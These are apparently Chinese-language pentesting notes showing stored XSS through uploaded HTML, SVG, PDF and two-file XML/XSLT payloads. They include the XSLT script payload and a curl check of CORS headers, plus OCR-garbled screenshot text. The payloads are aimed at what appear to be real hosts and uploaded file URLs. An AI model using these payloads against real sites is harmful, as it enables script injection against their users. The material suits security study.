








**<font style="color:#c00000;background-color:#b8cce4;">师傅笔记：</font>**


**crossdomain.xml**是adobe搞的，为了让flash跨域访问文件(跨域资源请求文件)

[http://220.172.165.183:8083/crossdomain.xml](http://220.172.165.183:8083/crossdomain.xml)

数据包头部：Origin:https://baidu.com

响应包：Access-Control-Allow-0rigin:

CURL查看：curl 域名 -H "Origin: [https://baidu.com](https://baidu.com)" -I

上传xml文件必须CORS允许所有域 CORS 跨域资源请求(允许我们网站加载其他网页代码)

[https://res2m.age06.com/](https://res2m.age06.com/)


html-XSS [https://res2m.age06.com/File/1/shangxin.html](https://res2m.age06.com/File/1/shangxin.html)

svg-XSS [https://res2m.age06.com/File/1/shangxin.svg](https://res2m.age06.com/File/1/shangxin.svg)

pdf-XSS [https://res2m.age06.com/File/1/shangxin.pdf](https://res2m.age06.com/File/1/shangxin.pdf)

xml


xml它需要上传2个文件 首先上传第一个xml文件(url地址我们首先拿到) 在上传第二个xml文件


xml1：https://res2m.age06.com/File/1/shangxin1.xml
```
<?xml version="1.0" encoding="iso-8859-1"?>

<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

<xsl:template match="/">

<html><body>

<script>alert(/618/);</script>

</body></html>

</xsl:template>

</xsl:stylesheet>
```


xml2:

<?xml version="1.0" encoding="iso-8859-1"?>

<?xml-stylesheet type="text/xsl" href="https://res2m.age06.com/File/1/shangxin1.xml"?>

<test></test>


**<font style="color:#c00000;background-color:#b8cce4;">个人笔记：</font>**


一：pdf打出xss

<!-- 这是一张图片，ocr 内容为：14:01 O 门 市服入口 只,注册/豆录 三乘单 购买VIP 新建文档迅挂PDF润设器 工具(M) 出口W) 注释(C) 高级百找(S) 农单(R) 文档(D) 视图(V) 文件 编联(O ()浙至 日保存(S) 糊脂(U) 缩放工具 高亮 传贴 匹起页面 扫描 距离 124.48% 快照 国文木柜 张 波大 送时针(W) 前一视图 美贴板 率做(R) 册除线 匹配宽度 新迁 添加附件, 手形工具选取工具编辑注释工具 编辑内容 添加 编辑衣单 实际大小 打开(O).... 线条 目标注, 10 缩小 )声音 面积 顺时针(C) 出租 匹配可见 下划纷统 吉找 20 句右旋转 向左旋转 页面保性 缩略图 干燥加动作:运行JAVASCRIPT 页码 1 标签1 编码 JAVA SCRIPT: 宽度 210MM APP.ALERT(618) 高原297MM 焦量考值. TAB 顺序 未指定 动作 打开页面<空白> 关闭页面<空白> -->



<!-- 这是一张图片，ocr 内容为：打开 此电脑>DESKTOP  上传文件之XSS 个 新郊文件夹 组织 类型 修改日期 大小 名称 快速访问 SHANGXIN.HTML CHROME HTML D.... 202403-20 16:14 1 KB WPS云盘 SHANGXIN.PDF 202403-22 14:01 MICROSOFT EDGE... 25KB 2023-12-2417:11 SHANGXIN.SVG MICROSOFT EDGE... 1 KB ONEDRIVE-PERSONA SHANGXIN1.XML 1 KB 202403-22 0:46 MICROSOLT EDGE... 此电脑 1 KB SHANGXIN2.XML MICROSOFT EDGE... 202403-22  0:46 3D 对象 1 KB 202403-2213:59 TXT 文件 上传文件打出XSS.LXT DESKTOP 视频 三图片 在网站上传PDF文件 同文档 -->



<!-- 这是一张图片，ocr 内容为：食 RES2M.AGE06.COM JS 必应 口日活力公 口知识 口沙箱 口 打点 CTF 口 源调库 导入 河南省技术船手 设置 POE 网盘 主页 下载SDK API 提示 网盘 OWNERLD W:(0)/U0026H(1),LD":035A0519-4DD0-4021-BD9D- D9B7BBOAOC8D,,OWNERLD,,1",NAME",SHANGXIN PDR,PATH",PATH",CREATETIME",2024/3/22 14:02:23",TYPE",RSOFT PAN.DOMAIN.FILENODE",TAGS,NULL,"ERRORCODE",O,"MESSAGE",NULL 当前路径:1 返间上一级 选择文件 SHANGXIN.PDL 确定 OK 文件夹名称: 文件夹LD: 根目录 OWNERLD: PATH: 访问地址 类型 名称 LD 文件夹 B840B319- AND C1D5-4214- 9F69- 1EFL20419E55 文件夹 63E25378 "AND FFA8-4DB8. 8396- D4E4796F7947 6E8B9C33. 'AND'M -->



二：XML格式打出XSS

1.先上传第一个xml1代码文件

<!-- 这是一张图片，ocr 内容为：口一直 个 四 RES2M.AGE06.COM 子四 JS 05 必应 应用 设置 口 导入 口 打点 口日活力公 口 通洞库 O SRC 口知识 O CTF 口沙箱 河南省技术能手 POE 网盘 API 主页 下载SDK 提示 网盘 (RESULT . OWNERLD ,DOWNLOADURL.. HTTPS//RES2M.AGEO6.COM/DOWNLOAD/1/SHENGXIN1.XM [SIZE":250,HOSE:  HTTPS://RES2M.AGE06.COM/, URL": THTTPS://RES2M.AGE06.COM/FLLE/1/SHANQXIN1.XN W-(0)/U0026H-(1),1D:"8306E0EB-2BB3-461E-A55A- 88934615658E",OWNERLD."NAME",SHANGXNGXNI.XMF,"PATH."R,,CREATE TIME.,2024/3R22 14:05:38",TYPE""RSOFT PAN.DOMAIN.FILENODE""TAGS"NULL)"ERRORCODE":0,MESSAGE",NULL) 当前路径:/ 返网上一级 选择文件 SHANGXIN1.XML 确定 OK 文件夹名称: 文件夹LD: 根目景 得到XML1的地址 PATH: OWNERLD: 类型 名称 AND B840B319- -->



2.将xml1的地址放到xml2的href中

上传xml2

<!-- 这是一张图片，ocr 内容为：O RES2M.AQE06.COM/FILC/1/618 网盈 220.172.165.183:80 K 门 中国日 - RES2M.AGE06.COM JS 必应 口知识 应用 导入 设置 CTF 沙箱 打点 STC 日常力公 吊洞库 河南省技术船手 网盘 主页 下载SDK API 提示 网盘 "RESULT OWNERLD W(0)/U0026H-(1)*1D:*848120D4-078F-4552-B656- 3/1999211135,,OWNERLD",1",NAME".XML",XML",PATH",,PATETIME":"22 14:07:25"TYPE",RSOFL.PAN.DOMALN.FLENODE",TAGS"NULL)"ERRORCODE","MESSAGE"NULLY 当前路径: 返回上一级 选择文件6182.XML 确定 OK 得到XML2的地址 文件夹名称: 文件夹ID: 根目录 PATH: OWNERLD: -->



3.上传xml文件必须CORS允许所有域 CORS 跨域资源请求(允许我们网站加载其他网页代码)


命令：curl 域名 -H "Origin: [https://baidu.com](https://baidu.com)" -I

查看CORS 跨域资源请求

<!-- 这是一张图片，ocr 内容为：UBUNTU-VMWARE WORKSTATION 母 文件(D据锁(D) 介主页 UBUNTU 回终端 活动 3月22日14:10 HACKER@UBUNTU-DRONE:~ HACKERQUBUNTU-DRONE:-S CURT HTTPS://RESZM.AGEO6.COM/-H "ORIGIN:HTTPS://BAIDU.CON" HTTP/1.1  200   CACHE-CONTROL:PRIVATE CONTENT-LENGTH;11924 PE:TEXT/HTML;CHARSETUTF-8 CONTENT-TYPE: SERVER:MICROSOFT-IIS/8.5 X-ASPNETMVC-VERSION; 5.2 X-ASPNET-VERSTON:4.0.30319 X-POWERED-BY:ASP.NET ARIQ DATE:FRI, 22  MAR 2024 09:54 GMT SET-COAKT: UAZBPORN3LPIDWAUSENGTRSI.  2924 06:90 CHT;  EXPRAT-2924 0E: EXPJRESEERT,  2924 00 CHT; PA5 HACKER@UBUNTU-DRONE:S -->



观察数据包，


<!-- 这是一张图片，ocr 内容为：6JUNTU-DRONE:-S CURL HTTPS://RES2M.AGE06.COM/ -H "ORIGIN:HTTPS://BAIDU.COM 1390X363 HTTP/1.1 200 OK CACHE-CONTROL:PRIVATE CONTENT-LENGTH;11924 CONTENT-TYPE:TEXT/HTML; CHARSETUTF-8 SERVER:MICROSOFT-IIS/8.5 X-ASPNETMVC-VERSION:5.2 K-ASPNET-VERSION:4.0.30319 X-POWERED-BY:ASP.NET DATE:FRI, 22 MAR 2034 06:09:54 GMT RETRCUUKE;  UZBRD3R3EFTISXJOSOUST,  22   2824 05;  EXPLYEST ACCESS-CONTROL-ALLOW-ORIGIH:* 如果有这个语句,呢么XML可执行 HACKERDUBUNTU-DRONE:~S -->



<!-- 这是一张图片，ocr 内容为：3月22日14:10 活动 HACKER@UBUNTU-DRONE;~ HACKERQUBUNTU-DRONE:-S CURL HTTPS://RES2N.AGEO6.CON/-H "ORIGIN:HTTPS://BAIDU.CON" HTTP/1.1 200 OK CACHE-CONTROL: PRIVATE CONTENT-LENGTH;11924 CONTENT-TYPE:TEXT/HTML; CHARSETUTF-8 SERVER:MIEROSOFT-IIS/8.5 X-ASPNETMVC-VERSION: 5.2 X-ASPNET-VERSTON:4.0.30319 X-POWERED-BY:ASP.NET Q DATE:FRI, 22  MAR  06:06:09:54 GMT SET-COOKIE:UQZBPD3N3IPIDWJU9BM4IVIUQF92 WG9C301WB-V1FEXJESOPEK:EXDIRESFRI.22-MAR-2024 06:40:00 GMT; PA ACCESS-CONTROL-ALLOW-ORIGIN:HTTPS://RES2M.AGE06.COM 这个也可以打出XML HACKER@UBUNTU-DRONE:`$ -->



